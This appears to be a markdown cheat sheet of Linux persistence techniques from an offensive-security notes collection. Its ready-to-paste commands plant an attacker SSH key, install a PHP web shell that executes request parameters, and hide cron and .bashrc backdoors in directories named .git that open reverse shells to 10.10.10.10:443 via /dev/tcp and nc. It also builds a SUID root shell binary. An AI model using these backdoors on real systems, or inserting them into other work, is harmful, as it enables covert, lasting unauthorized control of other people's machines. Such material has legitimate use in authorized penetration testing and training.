 # Persistence
## Linux Persistance 
### SSH Key
- Can be root or normal user.
````
echo "SSH_PUB_KEY_HERE" > ~/.ssh/authorized_keys
````
## PHP Backdoors
- Most likely need to be root, depends on if apache2 is already running, as well as web root permissions for your current user.
- On victim machine
````
sudo systemctl start apache2
cd /var/www/html 
nano ANKWTxiy11ugLHdaxJ.php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
````
### Usage
````
http://target.com/ANKWTxiy11ugLHdaxJ.php?cmd=cat+/etc/passwd
````
## Cron Job Backdoor
- On target if root
````
mkdir /usr/lib/.git 
cd /usr/lib/.git
echo '#!/bin/bash 
bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' > .git 
chmod +x .git 
````
- On target it not root
````
mkdir /var/tmp/.git 
cd /var/tmp/.git
echo '#!/bin/bash 
bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' > .git 
chmod +x .git
````
- Create the cron Job
````
crontab -e
* * * * * /bin/bash -c /usr/lib/.git/.git 
* * * * * /bin/bash -c /var/tmp/.git/.git
````
## Bashrc Backdoor
- Can be used as the root or non root user
````
cd ~
echo 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1 || rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f' >> ~/.bashrc
tail ~/.bashrc
````

## SUID Binary
- Need to be root, great backdoor if for example you found a priv-esc as a normal user and want an ability to priv-esc up in the future
- Depends on having `gcc` on the target
````
which gcc 
echo 'int main() { setresuid(0,0,0); system("/bin/sh"); }' > boot.c
gcc -o boot boot.c
rm boot.c
chmod u+s boot
````
- To trigger 
````
./boot
````







